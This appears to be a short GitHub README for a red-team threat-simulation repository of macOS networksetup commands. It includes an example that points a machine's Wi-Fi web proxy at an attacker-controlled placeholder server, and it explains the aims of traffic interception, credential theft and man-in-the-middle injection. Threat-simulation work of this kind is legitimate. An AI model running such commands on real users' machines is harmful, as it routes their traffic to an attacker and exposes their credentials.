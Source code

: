 # NetworkSetup TTPs_Threat Simulations

## Overview

This repository provides a collection of networksetup commands to craft scripts for crafting Tactics, Techniques, and Procedures (TTPs) and conducting threat simulations in various network environments. The networksetup commands are used to interact with network settings on macOS, offering a versatile toolset for network manipulation and testing.

## Contents

- [Usage](#usage)
- [Examples](#examples)

```bash
git clone https://github.com/sasquatchchicken/networksetup-ttps.git
cd networksetup-ttps
```bash

## Usage

- VLAN configuration
- Network service manipulation
- Preferred wireless networks management
- Proxy settings adjustment

## Examples

Craft a TTP for bypassing proxy settings:

For a threat actor, this command can be part of a technique to redirect or intercept web traffic on the target machine through a proxy controlled by the attacker. It could be used for various malicious purposes, such as:

#Traffic Interception: The attacker can intercept and analyze web traffic passing through the configured proxy server, potentially capturing sensitive information like login credentials or session tokens.

#Man-in-the-Middle (MitM) Attacks: By controlling the proxy server, the attacker can perform man-in-the-middle attacks, altering or injecting content into the communication between the target machine and the web servers.

#Bypassing Content Filters: A proxy server can be used to bypass content filters or access restricted content by making requests on behalf of the target machine.

# Enable the proxy settings
networksetup -setwebproxy "Wi-Fi" proxy.<server_address> <Server_Port>

# Bypass the proxy
networksetup -setproxybypassdomains "Wi-Fi" "*.internal.lan" "*.local"

# Display the updated proxy settings
networksetup -getwebproxy "Wi-Fi"
etworksetup -getproxybypassdomains "Wi-Fi"

